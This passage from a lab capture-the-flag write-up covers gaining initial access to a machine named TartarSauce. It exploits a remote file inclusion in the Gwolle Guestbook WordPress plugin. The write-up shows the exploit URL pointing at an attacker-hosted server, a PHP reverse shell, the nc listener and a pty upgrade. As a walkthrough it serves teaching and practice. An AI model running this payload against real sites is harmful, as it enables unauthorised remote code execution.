 Too bad, our version seems to be 2.3.10. However, reading file webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

```
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D

= 1.5.3 =
* 2015-10-01
```

It seems we have the vulnerable version after all.

## Initial Access 

Rename a php reverse shell to wp-load.php and start up a web server. Call the webserver using url (note that the trailing slash is important)

```
http://10.129.1.185/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.23:9001/
```

The file is fetched

```
$ python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.1.185 - - [04/Jan/2022 07:35:52] "GET /wp-load.php HTTP/1.0" 200 -
```

And our listener provides us a revershe shell

```
$ nc -nvlp 1234                  
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.129.1.185] 55962
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
 07:36:06 up  2:44,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@TartarSauce:/$ whoami
www-data
www-data@TartarSauce:/$ 
```

## Privilege Escalation www-data to onuma

Rather straightforward escalation of privileges through tar
